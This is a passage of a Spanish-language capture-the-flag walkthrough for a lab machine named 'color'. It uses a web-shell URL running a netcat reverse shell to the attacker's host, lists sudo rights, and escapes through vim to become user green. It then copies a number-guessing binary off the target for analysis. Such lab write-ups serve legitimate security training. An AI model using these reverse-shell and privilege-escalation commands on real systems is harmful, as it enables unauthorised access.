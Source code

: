 Poniendonos en escucha y entrando a esta pagina logramos obtener una reverse shell
```
http://10.0.2.25/test.php?cmd=nc%2010.0.2.4%20443%20-e%20%2Fbin%2Fbash
```

```
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.25] 55154
```

Nos mejoramos a una shell inteligente

ahora si haciendo un poco de investigacion vemos que green puede ejecutar vim

```
www-data@color:/var/www/html$ sudo -l
Matching Defaults entries for www-data on color:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on color:
    (green) NOPASSWD: /usr/bin/vim
```

https://gtfobins.github.io/gtfobins/vim/
Con esta pagina logramos cambiar al usuario de Green

```
www-data@color:/var/www/html$ sudo -u green vim -c ':!/bin/sh'
$ id
uid=1127(green) gid=1127(green) groups=1127(green)
```

Encontramos esto en su home 
```
$ cat note.txt	
You've been working very well lately Green, so I'm going to give you one last test. If you pass it I'll give you the password for purple.

-root
```

```
$ ./test_4_green
Guess the number im thinking: 2312
Nope, sorry
```
Al parecer tenemos que adivinar el numero en el cual esta pensando, pero es practiamente imposible

Me paso a mi maquina el archivo 

```
$ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.0.2.4 - - [11/Mar/2023 02:14:39] "GET /test_4_green HTTP/1.1" 200 -
```
```
❯ wget http://10.0.2.25:9000/test_4_green                   
--2023-03-10 20:14:35--  http://10.0.2.25:9000/test_4_green
Connecting to 10.0.2.25:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16928 (17K) [application/octet-stream]
Saving to: ‘test_4_green’

test_4_green            100%[===============================>]  16.53K  --.-KB/s    in 0s      

2023-03-10 20:14:35 (221 MB/s) - ‘test_4_green’ saved [16928/16928]
```
